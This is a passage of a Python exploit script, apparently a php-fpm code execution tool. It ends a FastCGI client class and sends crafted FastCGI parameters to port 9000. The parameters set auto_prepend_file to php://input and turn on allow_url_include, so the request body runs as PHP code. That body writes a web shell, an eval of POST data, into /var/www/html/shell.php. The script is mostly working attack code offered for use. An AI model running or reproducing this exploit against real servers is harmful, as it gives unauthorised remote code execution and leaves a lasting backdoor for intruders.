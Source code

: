 ```python
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    # parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    # parser.add_argument('host', help='Target host, such as 127.0.0.1')
    # parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    # parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    # parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    # args = parser.parse_args()

    client = FastCGIClient("127.0.0.1", 9000, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = "/var/www/html/index.php"
    content = '''<?php file_put_contents("/var/www/html/shell.php","<?php eval(\$_POST[1]);?>");?> '''
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    # print(force_text(response))
```
